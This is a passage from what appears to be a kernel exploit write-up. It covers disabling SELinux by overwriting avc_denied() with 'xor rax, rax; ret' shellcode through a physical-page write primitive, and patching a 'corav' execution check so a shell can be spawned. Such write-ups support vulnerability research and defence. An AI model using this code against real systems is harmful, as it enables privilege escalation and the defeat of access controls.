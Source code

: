 ``` c
static noinline int avc_denied(struct selinux_state *state,
                   u32 ssid, u32 tsid,
                   u16 tclass, u32 requested,
                   u8 driver, u8 xperm, unsigned int flags,
                   struct av_decision *avd)
{
    if (flags & AVC_STRICT)
        return -EACCES;

    if (enforcing_enabled(state) && // [3]
        !(avd->flags & AVD_FLAGS_PERMISSIVE))
        return -EACCES;

    // [...]
    return 0;
}
```

To disable SELinux, the most effective way is to **patch `avc_denied()` so that it always returns zero**, meaning the permission check always succeeds. The relevant part of the exploit is shown below:

``` c
printf("[+] overwrite avc_denied: 0x%016lx\n", avc_denied_w_pte);
{
    // xor rax, rax ; ret
    unsigned char avc_denied_shellcode[] = {0x48, 0x31, 0xc0, 0xc3};
    SYSCHK(write(reclaim_pfds[victim_pipe_idx][1], &avc_denied_w_pte, sizeof(avc_denied_w_pte)));

    // back to tmp_page again
    unsigned long read_data;
    SYSCHK(read(reclaim_pfds[victim_pipe_idx][0], &read_data, sizeof(read_data)));

    for (int i = 1; i < 512; i++) {
        void *ptr = (void *)BASE_MMAP_ADDR + i * 0x200000;
        memcpy(ptr + avc_denied_offset, avc_denied_shellcode, sizeof(avc_denied_shellcode));
    }
}

```
#### 3.6.2. Patch the corav Check

Furthermore, the `corav_scan()` function is invoked whenever a binary is executed. It blocks certain binaries from being used, so we need to patch `corav_initialized` to zero in order to disable this access check. Otherwise, spawning a shell would not be allowed.

``` c
static int corav_scan(struct linux_binprm *bprm)
{
    // [...]
    if (!corav_initialized)
        return 0;
    // [...]
}
```
